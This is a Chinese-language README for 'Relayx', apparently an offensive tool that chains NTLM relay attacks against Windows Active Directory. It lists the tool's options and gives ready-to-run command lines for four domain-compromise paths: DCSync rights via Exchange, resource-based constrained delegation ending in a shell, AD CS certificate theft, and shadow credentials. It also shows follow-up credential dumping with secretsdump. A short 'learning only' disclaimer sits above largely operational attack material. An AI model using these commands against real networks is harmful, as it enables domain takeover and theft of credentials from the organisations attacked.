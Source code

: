# Relayx
## 声明
**一切开发旨在学习，请勿用于非法用途**

## Usage
将几个比较好用的relay集成到了一起，提高测试效率。
```
DCpwn with ntlmrelay

positional arguments:
  target                [[domain/]username[:password]@]<targetName or address> or LOCAL (if you want to parse local files)

optional arguments:
  -h, --help            show this help message and exit
  -r CALLBACK_IP, --callback-ip CALLBACK_IP
                        Attacker callback IP
  --timeout TIMEOUT     timeout in seconds
  --debug               Enable debug output
  -ts                   Adds timestamp to every logging output
  --smb-port SMB_PORT   Port to listen on smb server
  -rpc-smb-port [destination port]
                        Destination port to connect to SMB Server

authentication:
  -hashes LMHASH:NTHASH
                        Hash for account auth (instead of password)

connection:
  -dc-ip ip address     IP address of the Domain Controller
  --ldap                Use ldap.
  -target-ip ip address
                        IP Address of the target machine. If omitted it will use whatever was specified as target. This is useful when target is the NetBIOS name and you cannot resolve it

attack:
  -m {rbcd,pki,sdcd}, --method {rbcd,pki,sdcd}
                        Set up attack method, rbcd or pki or sdcd (shadow credential)
  -t {printer,efs}, --trigger {printer,efs}
                        Set up trigger method, printer or petitpotam
  --impersonate IMPERSONATE
                        target username that will be impersonated (thru S4U2Self) for quering the ST. Keep in mind this will only work if the identity provided in this scripts is allowed for delegation to the SPN specified
  --add-computer [COMPUTERNAME]
                        Attempt to add a new computer account
  -pipe {efsr,lsarpc,samr,netlogon,lsass}
                        Named pipe to use (default: lsarpc)
  --template TEMPLATE   AD CS template. If you are attacking Domain Controller or other windows server machine, default value should be suitable.
  -pp PFX_PASS, --pfx-pass PFX_PASS
                        PFX password.
  -ssl                  This is useful when AD CS use ssl.

execute:
  -share SHARE          share where the output will be grabbed from (default ADMIN$)
  -shell-type {cmd,powershell}
                        choose a command processor for the semi-interactive shell
  -codec CODEC          Sets encoding used (codec) from the target's output (default "GBK").
```
## 认证触发
工具中包含了两种触发机器回连的操作。
printerbug 和 PetitPotam。 触发可通过指定参数来实现，默认使用printerbug
```
-t printer  # 使用 打印机bug  触发
-t efs      # 使用 MS-EFSRPC 触发
```

## 攻击场景
目前支持三种攻击方式
```
-m rbcd     # 普通域成员RBCD，高权限，添加Dcsync权限
-m pki      # 向AD CS申请证书
-m sdcd     # 通过ldap添加 msDS-KeyCredentialLink 属性进行攻击，需要 Server >= 2016
```
### 一、攻击Exchange服务器
默认Exchange的服务权限较高，所以工具会利用Exchange的权限将当前用户增加Dcsync权限。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.201 -r 10.211.55.2 -dc-ip 10.211.55.200
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728171035.png)

>目标的方式可以使用impacket的方式来写，@后跟目标即可，-r 是回连IP，也就是我们的攻击IP，-dc-ip 指定要去认证或者请求的DC ip, 后面一样，就不再重复。

攻击之后，当前用户可进行dcsync：
```
secretsdump.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.200 -just-dc-user cgdomain\\exchange$
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728171339.png)

使用aclpwn可进行还原(这里需要exchange服务器的机器账号hash):
```
aclpwn -r aclpwn-xxxxx-xxxxx.restore
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728171452.png)


### 二、攻击域成员机器
攻击普通服务器会自动使用RBCD（基于资源的约束委派）来攻击，所以这里需要域级别>= Server2012R2。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.202 -r 10.211.55.2 -dc-ip 10.211.55.203
```

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728172026.png)

攻击成功后，会自动获取一个交互式shell，并会生成一个ccache文件供以后使用，这里默认会模拟`administrator`的身份，如果不存在administrator，可通过`--impersonate` 来指定目标用户。

>这里默认会添加一个新的计算机账号，可通过--add-computer 来指定机器名，不指定则为随机名。

### 三、攻击AD CS
这里要求目标环境安装了`AD CS`。攻击AD CS 可以通过`-m pki` 来指定。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.202 -r 10.211.55.2 -dc-ip 10.211.55.200 -m pki
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728173221.png)

这里会向CS申请一个机器账号的证书，之后通过Rubues进行后续攻击即可。

![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210728173445.png)


### 四、利用msDS-KeyCredentialLink
类似于RBCD，优点是不需要添加计算机账号，缺点是需要Server版本高于2016, 可通过`-m sdcd` 来指定。
```
python relayx.py cgdomain.com/sanfeng:'1qaz@WSX'@10.211.55.202 -r 10.211.55.2 -dc-ip 10.211.55.200 -m sdcd
```
![](https://blogpics-1251691280.file.myqcloud.com/imgs/20210803105506.png)

>本地没2016环境。所以会报个错。

后续可通过Rubues进行后续攻击。